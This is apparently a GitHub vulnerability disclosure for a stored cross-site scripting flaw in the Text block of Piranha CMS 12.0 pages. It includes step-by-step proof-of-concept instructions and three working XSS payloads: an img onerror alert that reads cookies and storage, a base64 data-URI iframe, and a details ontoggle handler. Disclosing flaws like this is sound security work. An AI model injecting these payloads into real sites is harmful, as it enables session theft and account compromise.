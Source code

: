 # Public Disclosure: Stored XSS in Text Block – Piranha CMS 12.0 #

<b>Title</b>:<br> Stored Cross-Site Scripting in Text Block of Standard and Archive Pages in Piranha CMS 12.0

### Summary: ###
Piranha CMS 12.0 contains a stored cross-site scripting (XSS) vulnerability affecting the “Text” content block used in both Standard Page and Standard Archive Page types. When adding text content via the page editor, user-supplied HTML is not properly sanitized. An authenticated user can inject JavaScript payloads that are saved with the page content. These scripts are executed immediately upon save and every time the page is previewed or accessed, resulting in persistent XSS. This presents a serious risk for shared admin environments and can lead to account compromise or unauthorized data access.

<b>CVE ID:</b>
(Pending Assignment)

<b> Vendor:</b><br>
https://piranhacms.org<br>
https://github.com/PiranhaCMS/piranha.core

<b>Affected Product:</b><br>
Piranha CMS version 12.0<br>
https://github.com/PiranhaCMS/piranha.core/releases/tag/v12.0

<b>Affected Component:</b><br>
Pages → Standard Page / Standard Archive →  Content Block --> Text <br>
Path: /manager/pages<br>

## <b> Proof-of-Concept (PoC)</b> ##

1. Log in to the Piranha CMS admin panel at /manager/login
   
2. Navigate to the Pages section
   ![Step 1a](assets/1a.png)

3. Click “Add Page” and choose either:

Standard Page, or Standard Archive
   ![Step 1b](assets/1b.png)

4  Enter a page title (e.g., XSS-Test)
   ![Step 1c](assets/1cc.png)

5. Click the [+] button and select “Text” under “Content”
![1d](https://github.com/user-attachments/assets/6a7136e3-5d44-4877-8acc-6b5b457145c0)

6 In the text input area, paste one of the following payloads:

Payload A
 ```bash 
<img src="x" onerror="
  alert(
    'Cookies: ' + document.cookie + '\n' +
    'LocalStorage: ' + JSON.stringify(localStorage) + '\n' +
    'SessionStorage: ' + JSON.stringify(sessionStorage) + '\n' +
    'URL: ' + window.location.href + '\n' +
    'User Agent: ' + navigator.userAgent + '\n' +
    'Time: ' + new Date().toLocaleString()
  )
" />
 ```


Payload B

 ```bash 
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```

Payload C

 ```bash 
<details open ontoggle=alert('XSS')>Click</details>
```
![1e](https://github.com/user-attachments/assets/e0a6fa7d-4207-48d7-9ff1-a9c120ad02e0)


7 Click Save and  Click Preview

 Boom 
 it executes again. Anyone who accesses  the page triggers the XSS.
 ![1f](https://github.com/user-attachments/assets/d99f5dcb-be09-4dbb-8f93-55369c6b4418)


<b>Impact:</b>
<br>
Persistent (Stored) Cross-Site Scripting (XSS): Injected scripts are saved as part of the page content.<br>
Automatic Execution: Payloads execute every time the page is accessed, previewed, or viewed by any user.<br>
Session Compromise: May lead to session hijacking or theft of sensitive data such as cookies, tokens, or local/session storage.<br>
Privilege Abuse: Enables malicious authenticated users to target other admins or editors, escalating access or impersonating users.<br>
Multi-Page Exposure: Affects both Standard Pages and Standard Archive Pages, increasing the overall attack surface.<br>

